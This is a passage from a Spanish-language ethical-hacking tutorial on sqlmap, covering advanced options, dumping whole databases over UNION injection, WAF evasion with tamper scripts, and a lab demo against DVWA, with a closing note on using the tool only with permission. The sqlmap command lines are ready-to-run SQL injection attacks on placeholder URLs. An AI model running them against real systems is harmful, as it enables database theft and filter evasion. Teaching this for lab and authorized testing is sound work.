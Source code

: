 
### 7.3 Ejemplos complejos
- Las siguientes peticiciones usamos sqlmap con una request capturada. La request se puede obtener con burp suite u OWASP Zap, haciendo clic derecho y descargando la request.
- Uno de los problemas que nos podemos encontrar con SQLMap es que tengamos que ignorar ciertos códigos de error, como el 401.
- A veces sucede que corta la salida de texto cuando son muchos datos a devolver. Para evitarlo se usa `--no-cast` y `--no-escape`.
- La opción `--flush` se utiliza para forzar la salida inmediata de los resultados de cada consulta SQL ejecutada por la herramienta.

```bash
sqlmap -r req.txt --ignore-code=401 --dbms=sqlite --level=5 --risk=3 --technique=B -T <table> --columns

sqlmap -u http://URL?q= --dbms=sqlite --level 5 --risk 3 --schema --no-cast --no-escape

sqlmap -u 'http://URL?q=test' -p 'q' --dbms="sqlite" --technique U --prefix "')) " --level 5 --risk 3 --dump-all --no-cast --no-escape --flush
```

---

### 7.4 Evasión de seguridad
- `--tamper`: Usa scripts para evadir WAFs o filtros.
```bash
# Ejemplo
python sqlmap.py -u "URL" --tamper=space2comment
```

---

## 8. Demostración en vivo

### 8.1 Escenario
- Configurar un entorno vulnerable con DVWA [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)
- Ejecutar:
```bash
sqlmap.py -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --dbs
```
- Mostrar resultados en pantalla.


---

## 9. Mejores prácticas y ética

### 9.1 Uso responsable
- SQLMap, al igual que el resto de herramientas de hacking ético, solo se debe usar en entornos de prueba o con permiso explícito.
